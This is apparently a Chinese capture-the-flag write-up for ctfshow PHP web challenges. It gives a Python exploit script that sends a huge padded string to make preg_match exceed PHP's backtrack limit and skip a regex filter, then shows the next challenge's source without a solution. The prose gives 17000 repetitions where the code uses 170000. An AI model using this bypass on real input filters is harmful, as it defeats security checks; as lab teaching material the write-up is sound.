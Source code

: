 ```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

if(preg_match('/.+?ctfshow/is', $f)){
    die('bye!');
}
if(stripos($f,'36Dctfshow') === FALSE){
    die('bye!!');
}

echo $flag;

} 
```

考点：PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false

exp：

```python
import requests
url = "http://8b6b53a0-d082-4c0b-a21d-6d4ec4199440.challenge.ctf.show/"
data = {
    'f': 'xiaobai'*170000+'36Dctfshow'
}
res = requests.post(url=url,data=data)
print(res.text)
```

通过脚本发送一个f，f中有xiaobai*17000次+36Dctfshow来绕过正则



## WEB132

```
#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
    
    if($code == 'admin'){
        echo $flag;
    }
    
}

} 
```
